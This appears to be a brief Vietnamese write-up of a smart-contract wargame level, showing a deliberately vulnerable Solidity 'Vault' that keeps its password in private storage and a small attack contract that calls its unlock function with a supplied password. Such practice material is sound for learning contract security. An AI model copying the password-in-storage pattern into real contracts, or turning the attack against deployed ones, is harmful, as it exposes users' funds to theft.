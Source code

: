 ### Kết luận
- Lỗ hổng: Cơ chế mở khóa quá dễ dàng bị phá, cần thêm một số `modifiers`, `require` chặt hơn.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
import './vault.sol';
pragma solidity ^0.8.0;
interface IVault{
    function unlock(bytes32 _password) external;
}
contract VaultAttack{
    IVault public challenge;
    constructor (address _victim){
        challenge = IVault(_victim);
    }
    function attack(bytes32 _password) external {
        challenge.unlock(_password);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
